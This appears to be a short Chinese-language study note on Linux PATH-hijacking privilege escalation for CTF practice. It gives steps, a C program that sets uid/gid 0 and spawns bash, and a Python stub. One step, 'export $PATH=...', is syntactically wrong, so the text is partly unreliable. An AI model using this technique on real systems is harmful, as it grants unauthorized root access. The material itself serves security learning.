

# 文章
[Linux环境变量提权 - 先知社区](https://xz.aliyun.com/t/2767)<br />PATH 是Linux 和 Unix 操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。<br />[](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826220328647.png)

1. 找到可写目录find / -writable 2>/dev/null
2. 修改PATH的内容，通常将当前用户由执行权限的目录添加至PATH的最先位置，export $PATH=新添加的目录:$PATH
3. 编写脚本，写入想执行的命令。可以是/bin/bash或C语言等脚本<br />例子：

C语言脚本
```c
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("bash");
}
```
python脚本
```python
#!/usr/bin/python3

import os
import sys

try: 
    os.system("thm")
except:
    sys.exit()
```

4. chmod u+s 文件设置suid权限
### 例题
[[NepCTF 2023]ez_include](https://boogipop.com/2023/08/14/NepCTF%202023%20All%20WriteUP/##Ez-include)
